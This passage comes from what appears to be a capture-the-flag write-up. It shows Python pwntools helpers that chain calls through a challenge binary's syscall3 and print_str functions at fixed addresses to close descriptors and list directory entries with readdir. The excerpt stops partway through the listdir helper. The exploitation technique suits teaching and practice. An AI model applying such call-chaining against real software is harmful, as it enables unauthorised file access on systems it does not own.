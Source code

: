 It's also nice to be able to `close` directories as we don't know the remote
[`RLIMIT_NOFILE`][man-2-getrlimit] and we don't want to keep too many FDs open.
This is pretty simple, just a single call:

```python
def close(fd: int):
 send_chain(call('close', fd))
```

After opening a directory we can use the [`readdir(2)`][man-2-readdir] syscall
to list its entries. It takes a FD, a pointer to `struct old_linux_dirent` for
the output, and a third ignored argument. The output struct looks like this:

```c
struct old_linux_dirent {
 unsigned long d_ino;     /* inode number */
 unsigned long d_offset;  /* offset to this old_linux_dirent */
 unsigned short d_namlen; /* length of this d_name */
 char  d_name[1];         /* filename (null-terminated) */
}
```

The `d_name` field is at offset 4 + 4 + 2 = 10. To read the entries of a given
directory FD, we can issue the `readdir` syscall repeatedly, pointing the second
argument to a writeable memory area (for example in the `.bss`) and print the
`d_name` string each time using the `print_str()` function at `0x13372d29`. To
separate the names that are printed, we can locate and print a `"\n"` string
after each `d_name`: there are various `"\n"` used in propts or error messages
in the `.rodata` section; one is at `0x133700a5`.

Directories created by the maze generation function can have at most 10 entries
plus `.` and `..` that are always present, for a total of 12 entries. We can
therefore send a chain that makes 12 `readdir` calls, and 20 `print_str` calls
(10 for the names, 10 for the `"\n"` separator). Then, we will simply read 10
lines of output with `.recvline()` to get the names of the entries. If we find
duplicates, it means that we exhausted the entries and the syscall failed (and
did not overwrite the previous structure). Similarly, in case of an empty
directory, we will read `.`, then `..` and then `..` 10 more times.

The [`readdir(2)`][man-2-readdir] syscall does not already have a wrapper
implemented by the program, but we can call it using the `syscall3()` function
at `0x133722cd`, which simply does an arbitrary 3-argument syscall.

Here's a helper function to list the files in a directory given an open
directory file descriptor:

```python
from pwnlib.constants.linux.i386 import SYS_readdir

# Writeable memory for readdir to write struct old_linux_dirent
RW_BUF = 0x13375e70 # (.bss + 0x10)

def listdir(dirfd: int) -> list[str]:
 # Call readdir two times to skip "." and ".." as they are always present
 chain = call('syscall3', SYS_readdir, dirfd, RW_BUF, 0)
 chain += call('syscall3', SYS_readdir, dirfd, RW_BUF, 0)

 # List at most 10 entries
 for _ in range(10):
  chain += call('syscall3', SYS_readdir, dirfd, RW_BUF, 0)
  chain += call('print_str', RW_BUF + 4 + 4 + 2) # d_name
  chain += call('print_str', 0x133700a5) # "\n"

 send_chain(chain)

 res = []
 last = None

```

[man-1-file]: https://manned.org/man/file.1
[man-1-readelf]: https://manned.org/man/readelf.1
[man-2-close_range]: https://manned.org/man/close_range.2
[man-2-getrandom]: https://manned.org/man/getrandom.2
[man-2-getrlimit]: https://manned.org/man/getrlimit.2
[man-2-mkdirat]: https://manned.org/man/mkdirat.2
[man-2-mmap]: https://manned.org/man/mmap.2
[man-2-openat]: https://manned.org/man/openat.2
[man-2-prctl]: https://manned.org/man/prctl.2
[man-2-readdir]: https://manned.org/man/readdir.2
[man-2-seccomp]: https://manned.org/man/seccomp.2
[seccomp-tools]: https://github.com/david942j/seccomp-tools
[wiki-bfs]: https://en.wikipedia.org/wiki/Breadth-first_search
[wiki-dfs]: https://en.wikipedia.org/wiki/Depth-first_search